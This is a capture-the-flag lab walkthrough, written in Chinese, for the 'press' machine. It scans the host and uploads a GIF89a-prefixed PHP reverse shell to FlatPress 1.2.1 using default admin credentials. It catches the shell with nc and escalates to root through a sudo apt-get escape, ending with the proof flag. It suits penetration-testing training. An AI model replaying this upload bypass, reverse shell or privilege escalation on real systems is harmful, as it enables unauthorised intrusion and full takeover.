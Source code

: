###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# press
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.219.29 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.219.29:22
Open 192.168.219.29:80
Open 192.168.219.29:8089

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.56 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Lugx Gaming Shop HTML5 Template
8089/tcp open  http    syn-ack Apache httpd 2.4.56 ((Debian))
|_http-favicon: Unknown favicon MD5: 315957B26C1BD8805590E36985990754
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: FlatPress
|_http-generator: FlatPress fp-1.2.1
|_http-server-header: Apache/2.4.56 (Debian)
```

搜尋[Flatpress 1.2.1 - File upload bypass to RCE](https://github.com/flatpressblog/flatpress/issues/152)，照著她做，先用`admin/password`登入，點到`Uploader`，在payload前面加上`GIF89a;`
```
GIF89a;
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
...
```

上傳之後點到`Media manager`，開啟nc，點`shell.php`成功反彈shell，並使用`sudo -l`看看
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

$ python3 -c 'import pty; pty.spawn("/bin/bash")'

www-data@debian:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on debian:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on debian:
    (ALL) NOPASSWD: /usr/bin/apt-get
```

查看[GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#shell)，照著做
```
www-data@debian:/tmp$ sudo /usr/bin/apt-get changelog apt
Get:1 store: apt 2.2.4 Changelog
Fetched 487 kB in 0s (0 B/s)
WARNING: terminal is not fully functional
/tmp/apt-changelog-HyRWlA/apt.changelog  (press RETURN)!/bin/sh
!//bbiinn//sshh!/bin/sh
# whoami
root
# cd /root
# ls
email8.txt  proof.txt
# cat proof.txt
d72945da4ee0e2264214d45c3aea7bc0
```

